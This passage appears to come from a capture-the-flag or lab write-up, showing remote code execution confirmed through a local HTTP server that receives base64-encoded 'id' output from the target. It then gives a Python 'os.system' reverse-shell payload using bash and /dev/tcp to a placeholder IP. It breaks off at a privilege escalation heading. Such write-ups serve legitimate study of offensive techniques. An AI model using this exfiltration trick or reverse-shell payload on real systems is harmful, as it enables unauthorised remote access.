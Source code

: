 ![Pasted image 20250504142758.png](../../IMAGES/Pasted%20image%2020250504142758.png)

We get `500` status code again, but if we check our python server, this happens:

```python
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.170.179 - - [04/May/2025 19:23:30] "GET /?pwned=dWlkPTEwMDAoYnJ1Y2UpIGdpZD0xMDAwKGJydWNlKSBncm91cHM9MTAwMChicnVjZSkK HTTP/1.1" 200 -
```

If we decode the contents:

```python
Encrypted data: dWlkPTEwMDAoYnJ1Y2UpIGdpZD0xMDAwKGJydWNlKSBncm91cHM9MTAwMChicnVjZSkK
[+] Decrypted: uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
```

As seen `RCE` works. Let's craft a payload to get a reverse shell:

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"')
```

If we got our listener ready, we will receive the connection:

![Pasted image 20250504143524.png](../../IMAGES/Pasted%20image%2020250504143524.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---
